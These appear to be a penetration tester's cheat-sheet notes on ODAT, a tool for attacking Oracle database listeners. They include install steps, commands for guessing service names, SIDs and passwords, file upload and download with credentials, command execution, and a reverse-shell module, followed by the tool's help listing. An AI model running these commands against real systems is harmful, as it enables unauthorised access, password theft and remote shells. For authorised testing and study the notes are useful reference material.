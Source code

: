 # ODAT 


[Medium article by Mario Rufisanto on Oracle TNS Pentesting 2024](https://medium.com/fmisec/oracle-tns-penetration-test-using-odat-83fafcea1988) - 2024. Updated - removed `<>`
```bash
#!/bin/bash  
  
sudo apt-get install libaio1 python3-dev alien python3-pip -y  
git clone https://github.com/quentinhardy/odat.git  
cd odat/  
git submodule init  
git submodule update  
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y  
pip3 install cx_Oracle  
sudo apt-get install python3-scapy -y  
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap  
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

Useful commands - some commands **DO NOT AND WILL NOT EVER WORK**
```bash

# ./odat.py java !! does not work !!  
 
# Remember Odat is like impacket there are lots of tools
# Takes awhile and there are prompts
./odat.py all -s $ip

# service name guessing is required
./odat.py snguesser -s $ip
# SID Guess is required
./odat.py snguesser -s $ip

# this tool asks alot try a different tool for this
./odat.py passwordguesser -s $ip

# With valid credentials and permission you can upload a shell and execute it 
# Weirdly it has whitespace for the path then the file
./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password --getFile remotePath remoteFile localFile

./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password  --putFile remotePath remoteFile localFile

./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password ----removeFile remotePath remoteFile 

# This seems weird from an OPSEC, but this tool is from a different era
./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password --test-module 

# Never managed to make work but SnowWight has it
./odat.py dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --exec "C:\windows\system32\cmd.exe /c echo 123&gt;&gt;C:\hacK"

# Will prompt for a http server to serve reverse shell window and linux compatible
./odat.py dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --reverse-shell $localIP $port

For the archive just because 
```python
# Version 5.1.1 - 2022/04/27
./odat.py -h
	positional arguments:
  {all,tnscmd,tnspoison,sidguesser,snguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
                      
                      Choose a main command
    all               to run all modules in order to know what it is possible to do
    tnscmd            to communicate with the TNS listener
    tnspoison         to exploit TNS poisoning attack (SID required)
    sidguesser        to know valid SIDs
    snguesser         to know valid Service Name(s)
    passwordguesser   to know valid credentials
    utlhttp           to send HTTP requests or to scan ports
    httpuritype       to send HTTP requests or to scan ports
    utltcp            to scan ports
    ctxsys            to read files
    externaltable     to read files or to execute system commands/scripts
    dbmsxslprocessor  to upload files
    dbmsadvisor       to upload files
    utlfile           to download/upload/delete files
    dbmsscheduler     to execute system commands without a standard output
    java              to execute system commands
    passwordstealer   to get hashed Oracle passwords
    oradbg            to execute a bin or script
    dbmslob           to download files
    stealremotepwds   to steal hashed passwords thanks an authentication sniffing (CVE-2012-3137)
    userlikepwd       to try each Oracle username stored in the DB like the corresponding pwd
    smb               to capture the SMB authentication
    privesc           to gain elevated access
    cve               to exploit a CVE
    search            to search in databases, tables and columns
    unwrapper         to unwrap PL/SQL source code (no for 9i version)
    clean             clean traces and logs

options:
  -h, --help          show this help message and exit
  --version           show program's version number and exit

```
## References

[Medium article by Mario Rufisanto on Oracle TNS Pentesting 2024](https://medium.com/fmisec/oracle-tns-penetration-test-using-odat-83fafcea1988) 
[GitHub SnowWight hackdocs](https://github.com/TheSnowWight/hackdocs/blob/master/pentesting/1521-1522-1529-pentesting-oracle-listener/README.md)